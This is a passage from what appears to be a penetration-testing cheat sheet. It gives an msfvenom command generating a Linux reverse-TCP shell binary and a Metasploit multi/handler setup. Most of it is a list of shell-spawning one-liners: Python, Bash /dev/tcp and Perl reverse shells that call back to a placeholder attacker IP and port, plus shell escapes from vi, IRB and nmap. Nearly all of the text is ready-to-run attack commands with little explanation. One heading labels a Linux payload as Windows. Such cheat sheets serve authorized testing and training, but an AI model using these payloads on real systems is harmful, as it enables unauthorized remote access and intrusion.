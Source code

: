 	Windows/shell_reverse_tcp
	
	msfvenom -a x86 -p linux/x86/shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -b "\x00" -f elf -o <[FILE_NAME_NON_STAGED]>

# Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

	use exploit/multi/handler
	
	set PAYLOAD <[PAYLOAD_NAME]>
	
	set LHOST <[IP]>
	
	set LPORT <[PORT]>
	
	set ExitOnSession false
	
	exploit -j -z

# Shell Spawning

<b>Python:</b>

	python -c 'import pty; pty.spawn("/bin/sh")'
	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<[IP]>",<[PORT]>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
	
<b>Bash:</b>
	
	echo os.system('/bin/bash')
	
	/bin/sh -i
	
	exec 5<>/dev/tcp/<[IP]>/<[PORT]> cat <&5 | while read line; do $line 2>&5 >&5; done
	
<b>Perl:</b>
	
	perl —e 'exec "/bin/sh";'
	
	perl: exec "/bin/sh";
	
	perl -e 'use Socket;$i="<[IP]>";$p=<[PORT]>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	
<b>Ruby:</b>
	
	ruby: exec "/bin/sh"
	
<b>Lua:</b>
	
	lua: os.execute('/bin/sh')

<b>From within IRB:</b>
	
	exec "/bin/sh"
	
<B>From within vi:</B>
	
	:!bash
	
<B>From within vi:</B>

	:set shell=/bin/bash:shell
	
<B>From within nmap:</B>
	
	!sh

